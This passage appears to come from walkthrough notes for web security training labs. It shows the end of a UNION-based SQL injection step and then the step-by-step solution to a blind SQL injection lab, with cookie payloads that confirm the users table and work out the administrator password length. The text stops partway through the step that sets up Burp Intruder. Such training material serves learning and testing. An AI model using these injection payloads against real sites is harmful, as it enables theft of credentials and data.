 `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8. Find the password for the administrator user, and use it to log in.

## BLIND SQL INJECTION

## Blind SQL injection with conditional responses

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.
2. Modify the TrackingId cookie, changing it to:

`TrackingId=xyz' AND '1'='1`
Verify that the "Welcome back" message appears in the response.

3. Now change it to:

`TrackingId=xyz' AND '1'='2`
Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4. Now change it to:

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
Verify that the condition is true, confirming that there is a table called users.

5. Now change it to:

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
Verify that the condition is true, confirming that there is a user called administrator.

6. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
This condition should be true, confirming that the password is greater than 1 character in length.

7. Send a series of follow-up values to test different password lengths. Send:

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
Then send:

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.

8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
10. In the Positions tab, change the value of the cookie to:
